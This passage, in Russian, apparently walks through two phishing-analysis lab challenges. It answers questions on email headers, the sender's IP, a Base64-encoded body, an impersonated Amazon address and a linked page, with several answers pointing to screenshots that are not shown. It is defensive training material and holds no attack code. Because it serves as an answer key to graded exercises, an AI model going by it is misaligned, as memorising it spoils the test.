Тема письма указана в заголовке `Subject:`. 

### Задание 3
В какие дату и время было отправлено это письмо?

Ответ:

Дату и время отправки можно посмотреть в поле `Sent`.

### Задание 4
Какой исходный IP-адрес?

Ответ:

Нам нужно посмотреть поле `X-Originating-IP`. Оно как раз и отвечает за исходный IP, т.е. IP-адрес системы/сервера, откуда письмо было отправлено. 

### Задание 5
Выполни обратный DNS-запрос для этого IP-адреса. Какое имя хоста было получено? 

Ответ:

Предположу, что обратным DNS-запросом мы хотим получить имя сервера, который отправил письмо.
Заходим на сайт `whois.domaintools.com` и вбиваем найденный ранее IP:


### Задание 6
Как называется прикреплённый файл?

Ответ:

В сыром письме название файла не указано.


Поэтому попробуем узнать название через почтовый клиент:


### Задание 7
Какой URL найден внутри вложения?

Ответ:

На скрине выше указан.

### Задание 8
На каком сервисе размещена эта веб-страница?

Ответ:

Нужно посмотреть на URL-адрес в вложении, и прогуглить, чем является blogspot[.]sg

### Задание 9
Используя URL2PNG, какой заголовок отображается на этой странице? (Неважно, если страница уже недоступна!)

Ответ:

Что вообще такое URL2PNG? URL2PNG — это сервис, который делает снимок сайта по URL, то есть превращает веб-страницу в картинку.


*Congrats!*


</details>

<details>
  <summary><strong>Phishing Analysis 2</strong></summary>

  #### Сценарий
Проверь свои навыки анализа фишинга на практике: проведи первичный разбор и собери информацию о недавней фишинговой кампании.

### Задание 1
Какой адрес электронной почты отправителя?

Ответ:

Посмотрим сырой вид письма через VS Code:


Адрес электронной почты отправителя будет указан в поле `From`: `Amazn <amazon@zyevantoby.cn>`



### Задание 2
Какой адрес электронной почты получателя?

Ответ:

Адрес получателя указан в поле `To`: `saintington73 <saintington73@outlook.com>`

### Задание 3
Какая тема письма?

Ответ:

За тему письма отвечает поле `Subject`: `Your Account has been locked`
### Задание 4
Какую компанию злоумышленник пытается имитировать?

Ответ:

Отправителем указан популярный маркетплейс Amazon, но в имени компании допущена ошибка. 
### Задание 5
В какую дату и время было отправлено письмо? _(Скопировать как есть из текстового редактора)_

Ответ:

Дата и время указаны в поле `Date`: `Wed, 14 Jul 2021 01:40:32 +0900`

### Задание 6
Какой URL у основной кнопки призыва к действию?

Ответ:

Тело письма представлено в кодировке Base64:


Раскодирую текст с помощью утилиты Cyberchef:


Далее сохранил раскодированный текст в файл и смотрю через VS Code, в тексте нужно искать тег `<button>`:


Соответственно, в теге `href` указана ссылка.
### Задание 7
Посмотри URL через URL2PNG. Какое первое предложение / заголовок отображается на этом сайте? _(Независимо от того, считаешь ты сайт вредоносным или нет)_

Ответ:


### Задание 8
Если посмотреть основное содержимое письма в текстовом редакторе, какая кодировка используется?

Ответ:

Base64
### Задание 9
Какой URL используется для загрузки логотипа компании в письме?

Ответ:

Обычно в названиях таких png присутствует текст по типу `logo`, поэтому поищу по этому тексту:

### Задание 10
По неизвестной причине один из URL содержит ссылку на профиль Facebook. Какое имя пользователя у этого аккаунта, исходя из URL? _(Не обязательно совпадает с отображаемым именем)_

Ответ:


Congrats!



</details>

